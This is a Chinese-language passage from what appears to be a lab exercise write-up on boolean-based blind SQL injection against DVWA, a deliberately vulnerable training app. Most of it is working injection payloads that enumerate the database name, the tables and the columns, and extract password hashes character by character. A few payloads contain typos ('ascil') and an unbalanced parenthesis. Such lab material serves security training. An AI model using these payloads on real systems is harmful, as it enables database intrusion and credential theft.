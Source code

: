 爆密码的字段长度：1' and length((select password from users limit 0,1))>32# 
可得密码长度为32位，同理爆用户名的字段长度：1' and length((select user from users limit 0,1))>4#
可得用户名长度为5位，逐个类推

爆密码字段值：1' and ascil(substr((select password from users limit 0,1),1,1)>100#

以此类推可爆出密码的值

##### 7、使用布尔盲注在后端实现“库名-表名-列名”的注入过程，写清楚注入步骤。

爆库名长度：select first_name,last_name from users where user_id='1' and length(database())>5;

爆库名：select first_name,last_name from users where user_id='1' and ascii(substr(database(),1,1))>100;

爆表名长度：select first_name,last_name from users where user_id='1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>10# 

爆表名：select first_name,last_name from users where user_id='1' and (select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema='dvwa' limit 0,1)>100#  

猜字段：select first_name,last_name from users where user_id='1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1;

猜字段长度：select first_name,last_name from users where user_id='1' and length((select password from users limit 0,1))>32;

猜字段值：select first_name,last_name from users where user_id='1' and ascil(substr((select password from users limit 0,1),1,1)>100;
